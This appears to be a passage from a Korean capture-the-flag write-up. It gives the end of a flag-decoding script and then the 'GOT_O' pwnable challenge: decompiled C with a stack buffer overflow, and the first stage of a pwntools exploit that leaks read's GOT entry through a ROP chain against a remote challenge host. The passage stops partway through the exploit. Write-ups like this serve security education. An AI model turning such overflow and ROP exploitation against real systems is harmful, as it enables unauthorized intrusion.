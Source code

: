 ```python
			break
print ''.join(chr(i) for i in flag)
```

![](https://user-images.githubusercontent.com/32904385/63650819-c28d5500-c789-11e9-9788-157bbc7f9a3d.png)

**FLAG : `flag{0bfu5c4tOr_C4nT_5T0P_M3}`**

<br />

# Pwnable

## GOT_O

간단한 got overwrite 문제이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  problem();
  write(1, "\n\n", 2u);
  return 0;
}
```

```c
ssize_t problem()
{
  char buf; // [esp+0h] [ebp-18h]

  return read(0, &buf, 0xA0u);
}
```

````c
int win()
{
  return printf("/bin/sh");
}
````

exploit.py

```python
from pwn import *

context.log_level = 'debug'

p = remote('inc0gnito.com',9090)
elf = ELF('./GOT_o')

main = 0x080484a3
win = 0x0804848a
problem = 0x0804846b
read_offset = 0x9ad60 # read - system

payload = cyclic(cyclic_find('haaa'))

rop1 = ROP(elf)
rop1.write(1,elf.got['read'],4)
rop1.call(problem)

log.info('Stage1')

p.sendline(payload + str(rop1))
sleep(0.1)
```